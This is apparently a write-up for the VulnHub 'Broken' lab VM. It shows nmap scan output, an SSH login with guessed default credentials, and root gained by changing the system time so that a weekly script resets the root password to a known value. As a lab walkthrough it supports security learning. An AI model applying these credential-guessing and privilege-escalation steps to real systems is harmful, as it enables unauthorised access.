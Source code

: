 Broken :  Gallery

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Password Guessing
[+] Privilege Escalation Abusing SUDO rights /timedatectl and reboot.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-14 01:05 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done

root@setrus:~/vulnhub/broken# nmap -sTV -O -A 192.168.56.104 | tee OVAT_broken
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-14 01:05 EDT
Nmap scan report for 192.168.56.104
Host is up (0.00031s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
|_  256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
MAC Address: 08:00:27:99:DD:4F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Trying broken : broken as ssh credentials and we are logged into the server. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh broken@192.168.56.104
The authenticity of host '192.168.56.104 (192.168.56.104)' can't be established.
ECDSA key fingerprint is SHA256:6iK6MbJOGAwgxFmxooFsdDj4+MUBHpeR4l54CPQQGhQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.104' (ECDSA) to the list of known hosts.
broken@192.168.56.104's password: 
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Fri Aug  9 02:40:48 2019 from 10.11.1.221
broken@ubuntu:~$ id
uid=1000(broken) gid=1000(broken) groups=1000(broken),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing the history of the user broken we found : 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
166  sudo sh -c 'echo broken:broken | chpasswd'
  167  ls
  168  sudo -l
  169  sudo vi /etc/sudoers
  170  cd /var/www/html/
  171  ls
  172  cd ..
  173  ls
  174  su - root
  175  which date
  176  which timedatectl
  177  sudo systemctl disable light.gdm
  178  su - root
  179  sudo -l
  180  timedatectl set-time '2019-08-08 13:45'
  181  date
  182  cd /etc/init.d/
  183  cat password-policy.sh 
  184  ./password-policy.sh 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
broken@ubuntu:~$ cat /etc/init.d/password-policy.sh 
#!/bin/bash

DAYOFWEEK=$(date +"%u")
echo DAYOFWEEK: $DAYOFWEEK

if [ "$DAYOFWEEK" -eq 4 ]
then
	sudo sh -c 'echo root:TodayIsAgoodDay | chpasswd'
fi



#if [ "$DAYOFWEEK" == 4 ] 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Changing the time with the example from https://www.tecmint.com/set-time-timezone-and-synchronize-time-using-timedatectl-command/
After reboot the password for root should be changed.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh broken@192.168.56.104
broken@192.168.56.104's password: 
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Sun Oct 13 22:11:10 2019
broken@ubuntu:~$

broken@ubuntu:~$ su root
Password: 
root@ubuntu:/home/broken# 
root@ubuntu:/home/broken# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/broken# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


